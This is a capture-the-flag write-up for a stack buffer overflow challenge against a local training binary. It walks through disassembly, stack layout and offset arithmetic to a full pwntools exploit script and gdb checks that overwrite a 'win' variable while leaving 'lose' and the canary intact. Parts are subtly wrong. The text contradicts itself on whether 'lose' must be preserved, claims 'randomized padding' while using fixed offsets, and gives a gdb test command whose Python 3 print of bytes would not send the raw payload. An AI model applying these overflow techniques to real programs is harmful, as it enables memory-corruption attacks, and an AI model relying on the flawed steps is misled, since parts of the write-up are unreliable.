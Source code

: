 # **Binary Exploitation Write-Up: Precision Variable Overwrite (Hard Mode)**

## **Challenge Overview**
This challenge requires carefully overflowing a buffer to modify a `win` variable while preserving an adjacent `lose` variable. The hard mode removes all debug output, requiring manual reverse engineering.

### **Key Details**
- **Buffer**: Starts at `rbp-0x90` (144 bytes)
- **win**: Located at `rbp-0x1c` (28 bytes from RBP)
- **lose**: Located at `rbp-0x18` (24 bytes from RBP)
- **Protections**: Stack canary, NX, no PIE

## **Reverse Engineering Process**

### **1. Analyzing the Disassembly**
Critical checks found in the assembly:
```asm
mov    -0x18(%rbp), %eax   ; Check lose first
test   %eax, %eax
je     continue             ; Jump if lose==0

mov    -0x1c(%rbp), %eax   ; Then check win
test   %eax, %eax
je     exit                 ; Jump if win==0
call   win_function         ; Trigger if win!=0
```

### **2. Stack Layout**
```
+---------------------+
| Buffer Start        | rbp-0x90 (144 bytes)
| ...                 |
| win                 | rbp-0x1c (28 bytes from RBP)
| lose                | rbp-0x18 (24 bytes from RBP)
| Canary              | rbp-0x8
| Saved RBP           | rbp
| Return Address      | rbp+0x8
+---------------------+
```

### **3. Key Observations**
1. **Variable Order**: 
   - `win` comes **before** `lose` in memory
   - Overflow must stop before reaching `lose`

2. **Exploit Window**:
   - Can overwrite `win` without touching `lose`
   - No need to preserve `lose` value (it's after our target)

## **Exploit Development**

### **1. Calculating Offsets**
- **Buffer to win**: `0x90 - 0x1c = 0x74` (116 bytes)
- **win size**: 4 bytes
- **Total payload**: 120 bytes (116 padding + 4 byte overwrite)

### **2. Payload Structure**
```python
payload = (
    b"A" * 116 +      # Padding to reach win
    p32(0x1337)       # Exactly overwrite win
)
```

### **3. Why This Works**
- First 116 bytes fill buffer space
- Next 4 bytes modify only `win`
- `lose` remains untouched (4 bytes after win)
- Canary remains intact (8 bytes after lose)

## **Final Exploit Code**

```python
from pwn import *

# Start process
p = process("/challenge/binary-exploitation-lose-variable")

# Calculate offsets
buffer_start = 0x90
win_offset = 0x1c
padding = buffer_start - win_offset  # 116 bytes

# Craft payload
payload = (
    b"A" * padding +     # Reach win
    p32(0x1337)          # Overwrite win only
)

# Send and receive
p.send(payload)
print(p.recvall())
```

## **Debugging Verification**

1. **Set Breakpoint**:
   ```bash
   gdb /challenge/binary-exploitation-lose-variable
   break *challenge+249  # Right before win check
   ```

2. **Test Payload**:
   ```bash
   run < <(python3 -c 'from pwn import *; print(b"A"*116 + p32(0x1337))')
   ```

3. **Verify Memory**:
   ```bash
   x/wx $rbp-0x1c  # Should show 0x1337 (win)
   x/wx $rbp-0x18  # Should show 0x0 (lose)
   ```

## **Key Lessons**

1. **Precision Matters**:
   - 1 byte overflow could corrupt `lose`
   - Must stop exactly after `win` overwrite

2. **Reverse Engineering Skills**:
   - Extracting offsets from raw disassembly
   - Understanding compiler stack alignment

3. **Debugger Workflow**:
   - Essential for verifying memory layout
   - Critical for testing payloads

4. **Protection Bypass**:
   - Canary remains untouched
   - No need for memory leaks

## **Comparison: Easy vs Hard Mode**

| **Easy Version**          | **Hard Version**               |
|---------------------------|--------------------------------|
| Explicit offsets given    | Must reverse engineer offsets  |
| Debug output available    | Silent operation               |
| Fixed layout              | Randomized padding             |
| Simple payload            | Requires precise calculation   |

This solution demonstrates how to:
- Transition from easy to hard challenges
- Extract necessary information from stripped binaries
- Craft precision overflow attacks
- Verify results without debug output
